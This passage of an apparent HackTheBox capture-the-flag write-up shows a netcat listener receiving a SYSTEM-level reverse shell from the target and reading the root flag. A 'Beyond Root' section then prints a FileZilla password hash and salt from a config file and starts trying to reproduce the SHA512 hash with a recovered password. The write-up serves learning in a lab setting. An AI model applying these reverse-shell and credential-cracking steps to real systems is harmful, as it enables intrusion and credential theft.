 

    PS > nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64696
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system



And from there, I can grab root.txt:



    C:\Users\superadmin\Desktop>type root.txt
    3cc85d1b************************



## Beyond Root

### FileZilla Hash

In the config file for FileZilla, there's a password hash and a salt:



    <User Name="superadmin">
        <Option Name="Pass">813CCFB086CB6C9046F13F1E10D5222ECB63E11A809C133580577B5597D28EB079F6DDD5AA52D1503BED569C72B589F165FC02993C51E0994A6290A0356EC2A0</Option>
        <Option Name="Salt">cwl.PD(Zw&lt;EA-@&gt;ux6z,]l5U7]$Cr@cW?aD4~:j4&quot;%_*\6k&quot;Uk{1k@P7IX`.K7v0</Option>



[This thread on the FileZilla
forums](https://forum.filezilla-project.org/viewtopic.php?f=6&t=39934)
says that hash is SHA512, with the password then salt.

My gut instinct was to just append the two and calculate the hash, but
it didn't match:



    root@kali# echo -n 'funnyhtbcwl.PD(Zw&lt;EA-@&gt;ux6z,]l5U7]$Cr@cW?aD4~:j4&quot;%_*\6k&quot;Uk{1k@P7IX`.K7v0' | sha512sum 
    a02cbaeb712adaa4f8f84046606596a627e2ddb99eace7023febca9c4d5d89ae1ce2b34138495aee34d112973d445e2a0fbe354174e7e8f86b37bafd98efe0eb  -



The forums say that the salt should be 64 characters. Why is mine 80?



    root@kali# echo -n 'cwl.PD(Zw&lt;EA-@&gt;ux6z,]l5U7]$Cr@cW?aD4~:j4&quot;%_*\6k&quot;Uk{1k@P7IX`.K7v0' | wc -c
    80
